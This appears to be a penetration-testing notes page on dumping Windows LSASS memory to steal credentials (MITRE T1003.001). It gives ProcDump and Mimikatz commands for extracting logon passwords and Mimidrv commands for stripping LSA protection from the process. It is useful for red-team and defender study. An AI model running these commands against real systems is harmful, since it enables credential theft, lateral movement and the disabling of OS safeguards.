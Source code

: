 # Local Security Authority Subsystem Service (LSASS)

### Resources

1. **LSASS**

{% embed url="https://jumpcloud.com/it-index/what-is-the-local-security-authority-subsystem-service-lsass-exe" %}

2. **ProdDump**

{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/procdump" %}

2. **Mimidrv in depth**

{% embed url="https://medium.com/@matterpreter/mimidrv-in-depth-4d273d19e148" %}

3. **MITRE technique, OS Credential Dumping: LSASS Memory (T1003.001)**

{% embed url="https://attack.mitre.org/techniques/T1003/001/" %}

### What is LSASS?

Local Security Authority Server Service (LSASS) is a Windows process that handles the operating system security policy and enforces it on a system. The LSASS process stores user credentials in memory to enable users to access network resources, such as file shares and other network services, without needing to enter credentials each time.

Thus, the LSASS process is often targeted by attackers due to the sensitive information it contains about user accounts, to dump credentials for privilege escalation or lateral movement.

The following techniques can be used to exploit this (requires administrator privileges):

> As defined in the MITRE ATT\&CK framework: **OS Credential Dumping: LSASS Memory (T1003.001)**

### LSA protection

Note that the techniques to dump the LSASS process discussed below may not work due the implementation of the LSA protection, which aims to keep LSASS from being accessed to extract credentials from memory

{% embed url="https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection#enable-by-using-the-registry" %}

This protection can be enabled with the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` registry key, by setting the `RunAsPPL`&#x20;

**dword** value to **1**.

However, a particular Mimikatz technique can be used to disable this protection (refer to the **Disable LSA protection** section below).&#x20;

### ProcDump

> ProcDump is a command-line utility whose primary purpose is monitoring an application for CPU spikes and generating crash dumps during a spike that an administrator or developer can use to determine the cause of the spike.

In our case, we will be using it to dump the LSASS process to disk:

```powershell
C:\> procdump.exe -accepteula -ma lsass.exe <dump_location>
```

* `-accepteula`:  to automatically accept the Sysinternals license agreement
* `-ma:` To write a 'Full' dump file
  * Includes all memory
  * Includes all metadata

### Mimikatz

We can also use Mimikatz to dump the contents of the LSASS process.

#### a. Dump directly from the live LSASS process (requires administrative privileges)

{% code title="Administrator shell" overflow="wrap" %}
```powershell
C:\> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekrulsa::logonpasswords
```
{% endcode %}

#### b. Extract from a previously dumped LSASS process file (does not require administrative privileges)

Given that we have previously dumped the LSASS process to a file named `lsass.dmp` using the `ProcDump` utility, we can use the following commands to extract information from the dumped file:

```powershell
mimikatz # sekurlsa::minidump lsass.dmp
```

### Disable LSA protection

**What is Mimidrv?**

Certain Windows functionalities such as disabling the LSA protection can't be performed from user mode. `Mimidrv.sys` driver works on kernel level to disable the LSA protection via a user mode application.

{% code title="Administrator shell" %}
```powershell
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove

# LSASS dump should now succeed
mimikatz # sekurlsa::logonpasswords 
```
{% endcode %}

* `!+`: To implant and start the `Mimidrv.sys` driver from user mode
* `!processprotect:` A function provided by Mimidrv to remove process protection. In our case, it will be the LSASS process.

Refer to the "_Mimidrv in depth_" resource link above for more information.

